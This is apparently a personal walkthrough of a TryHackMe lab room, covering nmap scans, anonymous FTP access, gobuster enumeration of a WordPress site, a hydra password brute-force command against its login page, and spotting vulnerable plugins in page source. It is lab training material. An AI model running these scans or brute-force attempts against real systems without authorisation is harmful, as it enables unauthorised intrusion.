 
https://tryhackme.com/r/room/allinonemj

Scan all ports on target machine
```
┌──(root㉿kali)-[~]
└─# nmap -p- 10.10.86.193 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-11 20:16 UTC
Nmap scan report for ip-10-10-86-193.eu-west-1.compute.internal (10.10.86.193)
Host is up (0.010s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:DB:14:65:0E:0B (Unknown)
```

Identify the version and possible vulnerabilities on the target machine
Using nmap to scan ports 21,22 and 80. 
```
└─# nmap -p 21,22,80 -sVC 10.10.86.193         
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-11 20:17 UTC
Nmap scan report for ip-10-10-86-193.eu-west-1.compute.internal (10.10.86.193)
Host is up (0.00023s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.164.171
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e25c3322765c9366cd969c166ab317a4 (RSA)
|   256 1b6a36e18eb4965ec6ef0d91375859b6 (ECDSA)
|_  256 fbfadbea4eed202b91189d58a06a50ec (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:DB:14:65:0E:0B (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The FTP service allows anonymous logins
SSH is running OpenSSH  7.6p1
HTTP is running Apache 2.4.29

I attempted to sign into the ftp server using the anonymous user 
Although the connection was a success I believe there wasn't any content in the directory
```
ftp 10.10.86.193 
user: anonymous
dir
```

The server at port 80 is hosting a wordpress site
A couple of possible notable users are elyana and i7m4d but this might go nowhere and could be part of the setting up the room. 


Enumerate through root directory of the target website
```
─(root㉿kali)-[~]
└─# gobuster dir -u http://10.10.86.193 -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.86.193
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2025/01/11 20:28:11 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.86.193/wordpress/]
Progress: 20469 / 20470 (100.00%)===============================================================
2025/01/11 20:28:14 Finished
===============================================================
                                                                 
```


Enumerate through the found wordpress directory
```
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://10.10.86.193/wordpress/ -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.86.193/wordpress/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2025/01/11 21:05:02 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/wp-admin             (Status: 301) [Size: 325] [--> http://10.10.86.193/wordpress/wp-admin/]
/wp-content           (Status: 301) [Size: 327] [--> http://10.10.86.193/wordpress/wp-content/]
/wp-includes          (Status: 301) [Size: 328] [--> http://10.10.86.193/wordpress/wp-includes/]
===============================================================
2025/01/11 21:05:05 Finished
===============================================================
```
wp-admin
wp-content
wp-includes

Attempt to brute force wordpress admin site with hydra
This didn't reveal any verified credentials
```
hydra -l names.txt -P /usr/share/wordlists/rockyou.txt 10.10.86.193 http-post-form "/wordpress/wp-admin:>"
```
I looked up the next step in a writeup 

Wordpress's host plugins  can be utilized to  exploit the web server
If you view the web page source of the root wordpress website you can view these plugins. 
```
link rel='stylesheet' id='twentytwenty-print-style-css'  href='http://10.10.86.193/wordpress/wp-content/themes/twentytwenty/print.css?ver=1.5' media='print' />
<script src='http://10.10.86.193/wordpress/wp-includes/js/jquery/jquery.js?ver=1.12.4-wp' id='jquery-core-js'></script>
<script src='http://10.10.86.193/wordpress/wp-content/plugins/mail-masta/lib/subscriber.js?ver=5.5.1' id='subscriber-js-js'></script>
<script src='http://10.10.86.193/wordpress/wp-content/plugins/mail-masta/lib/jquery.validationEngine-en.js?ver=5.5.1' id='validation-engine-en-js'></script>
<script src='http://10.10.86.193/wordpress/wp-content/plugins/mail-masta/lib/jquery.validationEngine.js?ver=5.5.1' id='validation-engine-js'></script>
<script src='http://10.10.86.193/wordpress/wp-content/plugins/reflex-gallery/scripts/flexslider/jquery.flexslider-min.js?ver=5.5.1' id='flexSlider-js'></script>
<script src='http://10.10.86.193/wordpress/wp-content/plugins/reflex-gallery/scripts/prettyphoto/jquery.prettyPhoto.js?ver=5.5.1' id='prettyPhoto-js'></script>
<script src='http://10.10.86.193/wordpress/wp-content/plugins/reflex-gallery/scripts/galleryManager.js?ver=5.5.1' id='galleryManager-js'></script>
<script src='http://10.10.86.193/wordpress/wp-content/themes/twentytwenty/assets/js/index.js?ver=1.5' id='twentytwenty-js-js' async></script>
<link rel="https://api.w.org/" href="http://10.10.86.193/wordpress/index.php/wp-json/" /><link rel="EditURI" type="application/rsd+xml" title="RSD" href="http://10.10.86.193/wordpress/xmlrpc.php?rsd" />
<link rel="wlwmanifest" type="application/wlwmanifest+xml" href="http://10.10.86.193/wordpress/wp-includes/wlwmanifest.xml" /> 
```